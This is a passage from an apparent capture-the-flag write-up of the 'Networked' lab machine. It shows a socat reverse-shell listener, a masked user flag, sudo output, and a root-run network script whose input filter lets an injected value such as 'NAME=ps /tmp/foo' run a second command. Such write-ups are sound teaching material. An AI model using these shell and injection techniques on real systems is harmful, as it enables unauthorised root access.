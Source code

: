 {% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444  
[guly@networked ~]$ 
{% endhighlight %}

And here's user.txt.

{% highlight plaintext %}
[guly@networked ~]$ cat user.txt
526c############################
{% endhighlight %}

# Another exploitable script

What I love about this box is that everything revolves around finding flaws through code review. As we find through `sudo -l` (which shows everything guly is allowed to run as root), we have another exploitable script to play with.

{% highlight plaintext %}
[guly@networked /]$ sudo -l
<--- snip --->
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
{% endhighlight %}

This is changename.sh:

{% highlight bash %}
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
{% endhighlight %}

So this script changes some values in a configuration file regarding the network interface guly0. I decide to check the configuration file:

{% highlight plaintext %}
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
{% endhighlight %}
